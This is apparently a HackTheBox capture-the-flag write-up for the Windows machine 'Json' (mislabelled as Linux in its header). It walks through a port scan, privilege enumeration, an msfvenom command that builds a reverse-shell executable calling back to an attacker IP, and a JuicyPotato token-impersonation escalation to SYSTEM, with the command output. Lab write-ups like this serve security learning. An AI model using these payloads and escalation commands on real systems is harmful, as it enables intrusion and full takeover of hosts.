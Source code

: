 ```yaml
---
layout: post
title: Json
description: 'HackTheBox - Easy/Medium Linux Machine'
image: assets/images/JSON.png
---
```

Fun machine that involved a intercepting traffic to understand what the vulnerability was that ultimately led to a deserialization exploit for initial entry. Once you obtain code execution there is a vegetable that helps escalate to `uid=0 (root)`

# Hunting for the Entrance

Full port scan shows to interesting targets. 

```
PORT      STATE SERVICE      REASON
21/tcp    open  ftp          syn-ack
80/tcp    open  http         syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
5985/tcp  open  wsman        syn-ack
47001/tcp open  winrm        syn-ack
49152/tcp open  unknown      syn-ack
49153/tcp open  unknown      syn-ack
49154/tcp open  unknown      syn-ack
49155/tcp open  unknown      syn-ack
49156/tcp open  unknown      syn-ack
49157/tcp open  unknown      syn-ack
49158/tcp open  unknown      syn-ack
```

Attack Surface
---
21 (FTP) - FileZilla -- Requires Creds
80 (HTTP) - IIS?
i445 (SMB) - Null/Anonymous not enabled, -- Requires Creds
5985 (WinRM) -- Requires Creds


## Best Possible Entrance (HTTP/WEBAPP)

### Methods to probe webserver.
- gobuster
- nmap (scripts)


## Initial FootHold with JSON Deserilization.. More to Follow w/ `json-deserialize_RCE.py`

## Gaining Root
This appears to be vulnerable to JuicyPotato. Lets find out.

whoami /all
```
USER INFORMATION
----------------

User Name     SID                                          
============= =============================================
json\userpool S-1-5-21-1325271270-1453780805-384807897-1004


GROUP INFORMATION
-----------------

Group Name                           Type             SID                                                             Attributes                                        
==================================== ================ =============================================================== ==================================================
Everyone                             Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                   Well-known group S-1-5-3                                                         Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113                                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568                                                    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group
IIS APPPOOL\Json.Net                 Well-known group S-1-5-82-1097026443-1840990353-1306629843-3865948041-3469430407 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10                                                     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

ERROR: Unable to get user claims information.
```

## Juicy Potatoe

We are currently operating out of a in-memory powershell reverse-shell. We need to create payload for juicypotato to execute and get
root\admin shell.
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.31 LPORT=9010 -f exe > clean.exe`

First we need to find the proper CLSID to use. You can do this by launching the launch.bat file provided with JuicyPotato. But it requires a CLSID.list.
I initially had a problem because I assumed the OS was Windows 10 and grabbed that pre-populated list.

### ALWAYS VERIFY YOUR PLATFORM!!

This shows we are running a Windows Server 2012 R2. So we need to run that list with the bat file.
```
systeminfo
```


### VALID CLSID from Juicy
```
{9acf41ed-d457-4cc1-941b-ab02c26e4686};JSON\userpool
{98068995-54d2-4136-9bc9-6dbcb0a4683f};JSON\userpool
{0289a7c5-91bf-4547-81ae-fec91a89dec5};JSON\userpool
{9678f47f-2435-475c-b24a-4606f8161c16};JSON\userpool
{90F18417-F0F1-484E-9D3C-59DCEEE5DBD8};NT AUTHORITY\SYSTEM
{d20a3293-3341-4ae8-9aaf-8e397cb63c34};NT AUTHORITY\SYSTEM
{1BE1F766-5536-11D1-B726-00C04FB926AF};NT AUTHORITY\LOCAL SERVICE
{5BF9AA75-D7FF-4aee-AA2C-96810586456D};NT AUTHORITY\LOCAL SERVICE
{A47979D2-C419-11D9-A5B4-001185AD2B89};NT AUTHORITY\LOCAL SERVICE
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM
{f3b4e234-7a68-4e43-b813-e4ba55a065f6};NT AUTHORITY\SYSTEM
{784E29F4-5EBE-4279-9948-1E8FE941646D};NT AUTHORITY\SYSTEM
{eff7f153-1c97-417a-b633-fede6683a939};NT AUTHORITY\SYSTEM
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM
```

## Execute Juicy with a valid SID for NT AUTHORITY\SYSTEM (ROOTED)
```
PS C:\windows\temp\TS_temp> cmd.exe /c ".\juice.exe -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -t * -p C:\windows\temp\ts_temp\clean.exe -l 6663"
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 6663
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
PS C:\windows\temp\TS_temp
```

### Admin Shell

```
c:\Users\superadmin\Desktop> hostname & ipconfig & whoami
json

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::8d4d:9fdb:81e5:d28a
   Link-local IPv6 Address . . . . . : fe80::8d4d:9fdb:81e5:d28a%15
   IPv4 Address. . . . . . . . . . . : 10.10.10.158
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:2d92%15
                                       10.10.10.2

Tunnel adapter isatap.{65C17CBA-A140-4C7A-9B31-ADAD4C1F969F}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
nt authority\system

```

